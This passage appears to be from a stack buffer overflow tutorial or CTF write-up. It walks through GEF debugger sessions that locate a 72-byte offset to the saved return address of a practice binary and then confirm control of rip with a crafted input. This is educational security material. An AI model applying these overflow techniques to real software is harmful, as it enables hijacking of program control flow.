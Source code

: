 ```c
gef➤  info frame
Stack level 0, frame at 0x7fffffffe058:
 rip = 0x401190 in main; saved rip = 0x616161616161616a
 Arglist at 0x6161616161616169, args: 
 Locals at 0x6161616161616169, Previous frame's sp is 0x7fffffffe060
 Saved registers:
  rip at 0x7fffffffe058
gef➤  pattern search 0x616161616161616a
[+] Searching '0x616161616161616a'
[+] Found at offset 72 (little-endian search) likely
[+] Found at offset 65 (big-endian search) 
```

So we see that it's at an offset of `72`. Why 72, you may ask? If you look at the source code, you can see that we're saving a size of 64 for the `buf` variable. After that, the address that the `rbp` register holds, and then the address for the `rip` is stored.

```c
gef➤  p/x $rbp
$3 = 0x6161616161616169
gef➤  pattern search $rbp
[+] Searching '$rbp'
[+] Found at offset 64 (little-endian search) likely
[+] Found at offset 57 (big-endian search) 
```

As this binary is little endian, that's the value we go with, for the offset. Ie. we can control the `rip` register with an offset of 72 bytes.

Let's check that

```c
gef➤  r
Starting program: ./bof 
What are you going to say?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
Thank you, have a nice day!

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401190 in main ()

[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x00007ffff7ec5f67  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007fffffffe058  →  "BBBBBBBB"
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00000000004052a0  →  "Thank you, have a nice day!\n"
$rdi   : 0x00007ffff7f9a4f0  →  0x0000000000000000
$rip   : 0x0000000000401190  →  <main+55> ret 
$r8    : 0x1c              
$r9    : 0x0               
$r10   : 0x40              
$r11   : 0x246             
$r12   : 0x0000000000401060  →  <_start+0> endbr64 
$r13   : 0x0               
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────── stack ────
0x00007fffffffe058│+0x0000: "BBBBBBBB"	 ← $rsp
0x00007fffffffe060│+0x0008: 0x00007fffffffe100  →  0x0000000000000000
```